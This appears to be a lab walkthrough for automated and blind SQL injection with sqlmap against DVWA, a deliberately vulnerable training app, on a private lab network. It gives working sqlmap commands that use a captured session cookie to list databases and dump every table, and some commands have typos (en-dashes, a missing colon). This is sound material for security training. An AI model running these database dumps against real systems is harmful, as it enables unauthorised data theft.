 **On Kali VM**
1. Browse to DVWA
2. Login with username "admin" and default password "password"
3. Set security level to **Low**
4. See options for SQLmap

```
sqlmap -h
man sqlmap
```

5. Bring up Developer Tools and click on **Network Tab**
6. Enter a number for user ID and click <kbd>Submit</kbd>
7. Look under Network tab for HTTP packet that contains request and select it

![](https://i.imgur.com/hXOjAiP.png)
![](https://i.imgur.com/odLbBlq.png)
![](https://i.imgur.com/0SVprxI.png)

8. Look for Request URL of selected packet
9. Look for request headers for selected packet and look for cookie value (provide cookie value to SQLmap)
10. Run SQLmap with target URL and cookie
	- `--dbs` option for databases found

```
sudo sqlmap -u "http//Win10-IP/dvwa-master/vulnerabilties/sqli/?id=3&Submit=Submit" --cookie="security=low;PHPSESSID=ab6iiicumjdbjkmun4cphkdmvo" --dbs
```

11. SQLmap will output information about databases found

![](https://i.imgur.com/YoCJ74P.png)

12. Run SQLmap with target URL and cookie again with `-D` and `--dump-all` option 
	- `-D` option -> specifies name of database (`dvwa` database)
	- `--dump-all` -> specify to dump all contents of every table

```
sudo sqlmap –u "http://192.168.13.100/dvwa-master/vulnerabilities/sqli/?id=3&Submit=Submit" --cookie="security=low; PHPSESSID=ab6iiicumjdbjkmun4cphkdmvo" –D dvwa --dump-all
```

### Automated Blind SQL Injection
**On Kali VM**
1. Use Web Developer Tools (under **Network** tab) and find HTTP packet that contains SQL injection request and select it
2. Target URL will be the request URL of selected packet to provide to SQLmap
3. Look for cookie value to provide to SQLmap
4. Run SQLmap:

```
sudo sqlmap –u "http://192.168.13.100/dvwa-master/vulnerabilities/sqli/?id=3&Submit=Submit" --cookie="security=low; PHPSESSID=ab6iiicumjdbjkmun4cphkdmvo" –D dvwa --dump-all
```

- Output:

![](https://i.imgur.com/sdufOcE.png)

